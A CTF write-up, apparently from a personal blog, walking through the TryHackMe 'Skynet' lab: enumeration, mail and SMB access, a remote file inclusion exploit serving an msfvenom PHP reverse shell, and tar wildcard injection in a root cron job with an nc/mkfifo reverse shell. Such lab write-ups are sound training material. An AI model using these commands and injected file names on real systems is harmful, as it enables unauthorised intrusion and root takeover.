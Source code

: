 ```yaml
---
title: TryHackMe Skynet
date: 2024-12-30 0:0:0 -0500
categories: CTFs
tags: tryhackme
---
```



![](/assets/img/skynet/skynet.jpeg){: width=1000 height=200 }


# Information Gathering


We are given:

> Deploy and compromise the vulnerable machine!

Additonally, we are given the target IP `10.10.13.83`. Our objectives are as follows:

1. Obtain Miles' email password,
2. Identify the hidden directory,
3. Recall the type of vulnerability wherein one includes a remote file for malicious purposes,
4. Obtain the user flag, and
5. Obtain the root flag.


# Enumeration
We run an nmap scan with `nmap -sS -T5 -sC -sV 10.10.13.83` and obtain the following
```bash
Nmap scan report for 10.10.13.83
Host is up (0.097s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp    open     http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp   open     pop3         Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL AUTH-RESP-CODE SASL RESP-CODES TOP
139/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open     imap         Dovecot imapd
|_imap-capabilities: IMAP4rev1 more SASL-IR post-login have IDLE capabilities listed 
LITERAL+ Pre-login OK LOGINDISABLEDA0001 ENABLE ID LOGIN-REFERRALS
445/tcp   open     netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
646/tcp   filtered ldp
1023/tcp  filtered netvenuechat
1042/tcp  filtered afrog
3580/tcp  filtered nati-svrloc
3905/tcp  filtered mupdate
24444/tcp filtered unknown
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h59m54s, deviation: 3h27m50s, median: -5s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-12-30T17:58:47
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-12-30T11:58:47-06:00

Nmap done: 1 IP address (1 host up) scanned in 24.43 seconds
```

We notice SAMBA running on port `445/TCP` and enumerate it using `nmap --script samba-enum-shares.nse -p 445 10.10.13.83`.
This reveals

```bash
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.13.83\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\anonymous:
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\milesdyson:
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.13.83\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```
We notice that we have read and write access on `\\10.10.13.83\anonymous`. Moreover, 
it appears that Miles' personal files are accessible at `\\10.10.13.83\milesdyson`. However, this share is inaccessible without credentials.

On the `anonymous` share, we find a file `attention.txt` containing

```
A recent system malfunction has caused various passwords to be changed. All skynet
employees are required to change their password after seeing this.
-Miles Dyson
```

Additionally, we obtain some log files, which appear to be the history of the password resets mentioned in `attention.txt`.


Afterward, we move on to the web server at port `80/TCP` and fuzz for directories using

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/FUZZ -ic
```

This reveals the directory `/squirrelmail`, allowing us to login into Miles' email account. The combination
`MilesDyson:<MOSTRECENTPASSFROMLOGS>` works.

In Miles' inbox, we find the following message

![](/assets/img/skynet/email.png)

This password allows us to authenticate to Miles' SMB share, where we find the file `notes/important.txt`. The
file reads
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
This suggests that there is a directory named `/45kra24zxs28v3yd`. Navigating to `http://10.10.13.83/45kra24zxs28v3yd/` reveals Miles' personal page. The `notes/important.txt` file suggests that there is a login page available, so
we fuzz using 

```bash 
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/45kra24zxs28v3yd/FUZZ -ic
```

Consequently, we find a login form at `/45kra24zxs28v3yd/administrator/`.


# Exploitation
After some research, we identify an exploit compatible with this CMS at [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971).

To use this exploit, we first generate a php reverse shell with the command `msfvenom -p php/reverse_php LHOST=10.6.4.176 -o shell.php`. Then, we serve this file using `python3 -m http.server` and start a netcat listener with
`ncat -lvnp 4444`. Finally, we visit the URL 

```
http://10.10.13.83/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?
urlConfig=http://10.6.4.176:8000/shell.php
``` 
and receive a shell as `www-data`. We then obtain the user flag:

![](/assets/img/skynet/user.txt.png)

# Post-Exploitation
Checking for cron jobs, we execute the command `cat /etc/crontab`, which returns

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
...
```

The first job seems atypical. At `/home/milesdyson/backups/backups.sh`, we find

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We use wildcard injection to exploit this cron job: first, we `cd /var/www/html`. Then, we run `echo "" > '--checkpoint=1`
and
```bash
echo "" > '--checkpoint-action=exec=bash evil.sh'
``` 

Lastly, we write a reverse shell `evil.sh` using

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.4.176 1234 > /tmp/f" 
> evil.sh
```

After setting up a netcat listener with the command `ncat -lvnp 1234`,
we receive a shell as `root`.

We then obtain the root flag:

![](/assets/img/skynet/root.txt.png)



